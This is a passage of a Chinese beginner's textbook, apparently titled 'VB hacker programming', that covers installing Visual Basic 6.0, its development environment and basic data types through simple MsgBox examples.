





在出现的自定义选项中选择“安装 Visual Basic 6.0 中文版”，进入下一项，如图 1-3 所示。

在新窗口的安装类型中，我们选择“典型安装”，如图 1-4 所示。

之后程序会自动完成安装过程，安装结束需要重新启动计算机（必须重启才会生效）。这样 VB 就安装到了我们的计算机中。

## 1.4 VB 集成开发环境

初次运行 VB，会弹出“新建工程”对话框，如图 1-5 所示，此时选择“标准 EXE”，单击“打开”即可（或双击“标准 EXE”图标）。

此时进入 VB 集成开发环境，如图 1-6 所示。

图 1-6 中，左侧是工具箱，里面有各种控件。中间为窗体设计器，我们可以在里面布局各种控件。上侧是菜单栏。右侧上部是工程资源管理器，可以管理我们添加的窗体和模块等。右侧中部是属性窗口，可以设置控件的各项属性。而右侧下部则是窗体布局窗口，设置窗体在屏幕中显示的位置。我们可以先在工具箱中选择一个控件，然后在窗体设计器中进行拖放，拖放完毕，再到属性窗口设置控件的属性。



# 第一章 VB 编程基础



图 1-6 VB 集成开发环境

问：什么是窗体？  
答：窗体是指程序的一个窗口。程序大都是通过窗体给用户呈现信息，并接受用户输入的。

双击窗体设计器中的一个控件或者窗体本身，会进入代码编程窗口，我们可以在里面写入自己的代码。

如图 1-7 所示，下拉列表框 Form 处是窗体或者控件的名称，而 Load 处则是控件对应的事件，VB 是采用事件驱动机制的，也就是说，当你对一个对象做出某项操作时，就会触发该对象的一个事件，例如：当你单击一个按钮，就会触发该按钮的单击事件；若双击一个按钮，就会触发该按钮的双击事件。

测试运行我们编写的程序时，可以按 F5，也可以单击菜单栏的“启动”按钮。



图 1-7 代码编辑窗口

问：如何将编写的程序生成可执行文件？  
答：在菜单栏里选择 文件 -> 生成工程1.exe -> 选择一个目录 -> 单击“确定”即可生成可执行文件。

在菜单栏中的“视图”条目中，我们还可以设置显示和隐藏更多的窗口：对象浏览器、立即窗口等。希望读者朋友可以自己熟悉一下菜单栏中各个选项的功能。

## 1.5 数据类型

我们编写程序时必然会涉及到数据的存储和计算，因此，数据类型是必须掌握的内容。数据类型是指数据存储的方式。

VB 中数据类型可分为基本数据类型和自定义数据类型。基本数据类型包括：数值类型（Numeric）、逻辑类型（Boolean）、字符串类型（String）、日期时间类型（Date）以及可变类型（Variant）。而自定义数据类型则是用户通过 Type 语句构造的，它类似于 C 语言中的结构体类型。

> 提示：若读者朋友对 C 语言缺乏了解，那么此处可暂不深究它们的区别和联系。

下面我们分别对这些数据类型进行简单介绍。

### 1.5.1 基本数据类型

例如：`Dim Page As Integer`，就是指定变量 Page 为整型。这时，如果将一个非整型数据赋值给 Page，由于 Page 只能存储整型数据，程序会自动将其转换为整型数据。双击窗体设计器中的窗体，为窗体载入事件（Load）添加下面的代码：

```vb
Private Sub Form_Load()
   'Private（私有）是 Sub 过程的作用域
   '它表示这个 Sub 过程只适用于本窗体，
   '而不能被其他窗体引用。
   '括号里面可以包括一个过程的参数，
   '此时括号里面为空，表示无参数。
   Dim Page As Integer    '声明 Page 为整型变量
   Page = 1.2             '将一个非整型数据 1.2 赋值给 Page
   MsgBox Page            '其值将被自动转换为整型数据，得到的结果为 1
End Sub                   'End Sub 标志该 Sub 过程结束
```

问：上面的单引号是什么意思？  
答：VB 中使用单引号进行注释，注释的内容不会作为程序语句运行，仅仅作为程序员的备注。为了提高代码的可读性，我们应该养成良好的注释习惯。VB 中的另一注释形式是：`Rem 注释内容`。它所达到的效果跟单引号是一样的。需要注意的是，VB 中不支持直接进行多行注释，为了进行多行注释，需在每行开头都加上单引号或者 Rem。例如：

```vb
' 第一行注释
' 第二行注释
' 第三行注释
```

问：上面的 MsgBox 是什么意思？  
答：MsgBox 是一个函数，它是 MessageBox 的缩写，用于弹出消息对话框。后面跟的第一个参数是提示信息的内容。这个函数在后面会有更详细的介绍。

问：什么是作用域？  
答：作用域就是限定一个变量或者一个函数在哪里有效。一般地，私有（Private）声明情况下，变量或函数只在所属的窗体或模块中有效；而公有（Public）声明情况下就可以在程序中的任意一个窗体或模块使用。打个比方说，你的钱是你的，这就是私有的，只能由你来用。而公共设施，是大家公有的，所有人都可以使用。

问：上面的代码中为什么 Dim 相对于 Private 要后退两位呢？  
答：这涉及到缩进的问题。为了让我们编写的代码更加直观，可以选择在不同的行处向后缩进一定位数。初学的朋友一定要养成良好的编码习惯，该缩进的地方一定要缩进，切不可所有代码都对齐，那样就没有条理性了，读代码时也会显得很吃力。我们规定，在 VB 中，每个层次之间缩进 3 个空格。



运行上面的代码，结果如图 1-8 所示，我们得到的结果将会是 1。这里 Page 的值是通过小数部分四舍五入得到的；如果我们将 1.9 赋值给 Page，那么得到的结果将会是 2。

## 第一章 VB编程基础

#### 1. 数值类型（Numeric）

VB中数值类型又可以分为字节型（Byte）、整型（Integer）、长整型（Long）、货币型（Currency）、单精度浮点数（Single）和双精度浮点数（Double）。不同数值类型所能表示的数值范围是不相同的。例如字节型数值（Byte）只能表示0到255的无符号数。单精度数和双精度数的区别在于，单精度数占用32位存储，而双精度数则需要占用64位存储。所以，双精度数能表示更大范围的数值。

#### 2. 逻辑类型（Boolean）

逻辑类型即布尔类型，它只可能有两个值：True（真）或False（假）。当把一个数值转换为布尔值的时候，0表示False，其他非0值都将会被转换为True。对应地，将一个布尔值转换为数值时，True将被转换为-1，False则转换为0。请看下面的代码：

```vb
Private Sub Form_Load()
    Dim a As Boolean      ' 声明一个Boolean变量
    a = True              ' 初始为True
    MsgBox CInt(a)        ' 强制转换为整型数值
End Sub
```



图1-9 将Boolean型转换为数值

此处CInt是类型转换函数，用于强制转换变量为整型，我们得到的最终结果将是-1，如图1-9所示。类似地，我们将a初始化为False，则得到的提示结果将会是0。再举例说明一下数值转换为Boolean型的情况：

```vb
Private Sub Form_Load()
    While 2                ' 2是一个非0数，转换为True
        MsgBox "VB黑客编程"
    Wend
End Sub
```

问：上面的While…Wend是什么意思？  
答：While…Wend是一类循环语句，当While后面跟的表达式成立（为True）时，会一直执行中间的语句，后面我们会对While语句做详细介绍，大家可以参考语法基础中的循环结构。

运行后，程序将不停地弹出提示框“VB黑客编程”，陷入死循环中。因为2是一个非0数，其转换之后为True，条件成立，循环一直会进行下去。为了终止程序，我们可以按下Ctrl+Break键中断运行。部分品牌笔记本电脑可以通过按下“Ctrl+Fn功能键+Num Lk数码锁定键”三个键来实现中断运行的功能，因为通常笔记本电脑上没有Break键。

> 提示：在这里，我们介绍一下逻辑运算符。所谓的逻辑运算符，其实就是用于逻辑值的运算符号。逻辑运算符包括逻辑与（And）、逻辑非（Not）、逻辑或（Or）、逻辑异或（Xor）、逻辑相等（Eqv）和逻辑蕴含（Imp）。两个逻辑值运算后返回的结果也是一个逻辑类型的值。下面介绍前四种：

- 1）逻辑与 And  
  其基本形式是：逻辑值A And 逻辑值B。  
  只有当两个逻辑值A和B都是True时，A And B的结果才是True。也就是说，只有True And True的结果才是True。当A和B中任意一个为False时，它的结果都将是False。

- 2）逻辑非 Not  
  它的基本形式是：Not 逻辑值A。  
  当逻辑值A为True时，Not A的结果为False；当逻辑值A为False时，Not A的结果是True。

- 3）逻辑或 Or  
  它的基本形式是：逻辑值A Or 逻辑值B。  
  只要A和B中有一个为True，A Or B返回的结果都是True。如果A和B都是False，则返回False。

- 4）逻辑异或 Xor  
  它的基本形式是：逻辑值A Xor 逻辑值B。  
  当A和B的值不同时，A Xor B返回True；当A和B的值相同（同为True或同为False）时，A Xor B返回False。也就是说，A和B相异时返回True，相同时返回False。

#### 3. 字符串类型（String）

字符串类型是我们使用得较多的类型。它可以分为变长字符串和定长字符串。变长字符串不指定长度，而定长字符串则需要指定长度，它能容纳的最大字符数等于指定的长度。声明定长字符串的语法是：`Dim 变量名 As String * 字符串长度`。请看下面的例子：

```vb
Private Sub Form_Load()
    Dim str1 As String      ' 声明一个变长字符串 Str1
    str1 = "VB黑客编程"
    MsgBox str1
End Sub
```

此时Str1的值为“VB黑客编程”。若指定Str1的长度为4，变为：

```vb
Private Sub Form_Load()
    Dim str1 As String * 4      ' 声明定长字符串 Str1，长度为 4
    str1 = "VB黑客编程"
    MsgBox str1
End Sub
```



图1-10 定长字符串

这时候得到Str1的值为“VB黑客”，只截取了前4个字符。这就像一个碗，只能盛一碗水，你偏要往里面倒一桶水，那多余的水肯定就会溢出去了，碗里始终最多只能装下一碗水。运行结果如图1-10所示。

与字符串相关的各种函数有Trim、LTrim、RTrim、InStr、Mid、Left、Right、Asc、Chr、Len、StrConv、String、Space等，后面笔者将会做一些相应的介绍。

#### 4. 日期时间类型（Date）

日期时间类型用于存储日期和时间。在给变量赋值的时候，需要在两边加上“#”号，否则，编译器会提示错误。下面的语句用于将时间赋值给Date型变量：

```vb
Dim MyData As Date          ' 声明一个日期时间类型变量
MyData = #7/13/2009 11:24:00 AM#
```

日期和时间的格式请读者朋友参照上例，这里赋给变量的值可以只有日期或只有时间。

例如：

```vb
Private Sub Form_Load()
    Dim MyDate As Date, MyDate2 As Date      ' 声明两个日期时间类型变量
    MyDate = #12:00:00 PM#                    ' 这里只有时间
    MyDate2 = #7/22/2009#                     ' 这里只有日期
    MsgBox MyDate
    MsgBox MyDate2
End Sub
```

#### 5. 对象引用类型（Object）

对象引用类型是一个32位的数值，它用于建立对其他对象的引用。例如，我们可以引用一个按钮或一个窗体，可以建立对FSO对象的引用等。声明一个对象引用类型变量的方法是：**Dim 变量名 As Object**。简单举例说明，我们在窗体中画一个按钮（Command1），然后为窗体的载入事件添加下面的代码：

```vb
Private Sub Form_Load()
    Dim Obj1 As Object                 ' 声明一个引用类型Obj1
    Set Obj1 = Form1.Command1          ' 建立对按钮Command1对象的引用
    MsgBox Obj1.Caption                ' 这时Obj1的Caption属性就是Command1的Caption属性
End Sub
```

我们得到的最终结果将是“Command1”，此时Obj1对象等同于Command1对象，它的Caption属性也就是Command1的Caption属性。

> 注意：
>
> 1. 建立对象引用时，语句中的Set不可少，否则会出错，错误提示是“对象变量或With块变量没有设置”。
> 2. 获取一个对象属性值的方法是：对象名.属性。例如，Form1.Caption就是获取Form1这个对象的Caption属性的值。同样地，对于可以改变其值的属性，可以使用下面的语句改变其值：对象名.属性 = 新值。例如，Form1.Caption = "VB黑客编程"，就是设置窗体的标题为“VB黑客编程”。请读者朋友们注意了，字符串两边的双引号应该在英文输入法下输入，切换为中文输入法情况下的引号输入会出错。

下面简单举例说明建立FSO对象和文件对象的引用，关于FSO对象的使用，后面我们会有详细介绍，这里读者朋友可以不用深究：

```vb
Private Sub Form_Load()
    Dim Fso As Object, MyFile As Object                   ' 声明两个对象引用类型
    Set Fso = CreateObject("scripting.filesystemobject")  ' 建立Fso对象
    Set MyFile = Fso.GetFile("D:\1.txt")                  ' 获取D:\1.txt这个文件对象
    MsgBox MyFile.Size                                    ' 提示D:\1.txt这个文件的大小
End Sub
```

在VB中，一个文件可以看成对象，一个文件夹也可以看成对象。而每一个对象都有它相应的属性，例如上面的MyFile.Size就是获取MyFile文件对象的Size属性。文件对象还有Name、Path、Type等其他诸多属性，获取非常方便。

> 说明：
>
> 1. CreateObject是一个函数，用于创建并返回对ActiveX控件的引用。而每一个ActiveX控件可以实现一定的功能。
